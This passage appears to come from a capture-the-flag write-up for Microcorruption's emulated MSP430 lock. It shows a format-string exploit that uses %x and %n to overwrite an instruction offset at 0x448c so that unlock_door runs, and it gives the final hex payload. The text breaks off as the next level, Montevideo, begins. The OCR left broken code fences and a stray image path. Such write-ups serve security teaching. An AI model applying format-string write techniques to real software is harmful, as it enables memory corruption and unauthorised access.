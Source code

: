 ```
are going to pop more data off the stack, then.  The stack looks like:

```
3ffc
0000
[first word of format string]
[second word of format string]
[third word of format string]
```

Therefore, if the format string consists of the following words:

```
[address]
%x
%n
```

Then the following will happen:

* The address will be printed (whatever it is)

* The %x will pop off the 0000 from the stack, leaving `[address]` at
  the top of the stack

* The %n will cause a number to be written to `[address]`.
  Specifically, that number will be the count of characters printed
  thus far.  So it will be some small integer.

So we can get a small integer written to any address we want.  So what
address will we overwrite?  Looking immediately after the printf, we
have the code snippet:

```
447c:  b012 c845      call	#0x45c8 <printf>
4480:  2153           incd	sp
4482:  3f40 0a00      mov	#0xa, r15
4486:  b012 5045      call	#0x4550 <putchar>
448a:  8193 0000      tst	0x0(sp)
448e:  0324           jz	#0x4496 <main+0x5e>
4490:  b012 da44      call	#0x44da <unlock_door>
4494:  053c           jmp	#0x44a0 <main+0x68>
```

We see the test instruction at 448a is the one used to determine
whether to unlock or not.  If we change the offset at 448c, then the
instruction will become, e.g. `tst 0x2(sp)`, which may not be zero.
Indeed, sp will be 3ffa at this point, so sp+(a small integer) will be
within our format string most likely, so nonzero.  

Thus the format string should be:

```
448c
%x
%n
```

The answer, therefore, is just:

```8c442578256e```

## 11. Montevideo

This seems like a straightforward buffer overflow.  The usual
```